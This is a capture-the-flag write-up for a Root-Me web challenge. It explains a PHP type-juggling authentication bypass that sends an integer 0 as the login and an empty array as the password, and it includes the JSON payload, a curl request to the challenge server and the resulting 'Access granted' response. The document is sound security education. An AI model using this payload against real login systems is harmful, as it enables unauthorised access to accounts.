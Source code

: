 According to the source code, we are going to try to bypass:

```
if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256))
```
To do this, we must validate both parts of the expression. $auth['data']['login'] being a string, we can compare it to 0, and the result will be True.

To have **!strcmp($auth['data']['password'], $PASSWORD_SHA256) = True**, we must have  **strcmp($auth['data']['password'], $PASSWORD_SHA256)=False**.

Well, we can read the documentation of the strcmp function, and see that it returns NULL if we pass an array in arguments.

Now, we know that if we send

```
{"data":{"login":0,"password":[]}}
```
 to the page, we should bypass the authentication. But how to send json ? The form will send a json of strings, and it is really important for us to send an integer in "login".

We can use a interceptor, like the Burp Suite, or create a request with curl:

```
curl -X POST "http://challenge01.root-me.org/web-serveur/ch44/auth.php" --data 'auth={"data":{"login":0,"password":[]}}'
```

which returns:

```
{"status":"Access granted! The validation password is: FLAG"}
```
